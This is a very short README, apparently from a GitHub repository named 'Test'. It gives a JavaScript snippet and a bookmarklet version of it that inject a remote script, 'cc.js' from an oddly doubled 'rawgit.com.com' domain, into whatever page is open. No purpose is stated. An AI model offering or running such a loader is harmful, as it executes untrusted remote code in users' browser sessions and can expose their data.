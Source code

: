 # Test

var s = document.createElement('script');
s.setAttribute('src','https://rawgit.com.com/y2k/Test/master/cc.js');
document.head.appendChild(s);

javascript:var s=document.createElement("script");s.setAttribute("src","https://rawgit.com.com/y2k/Test/master/cc.js"),document.head.appendChild(s);
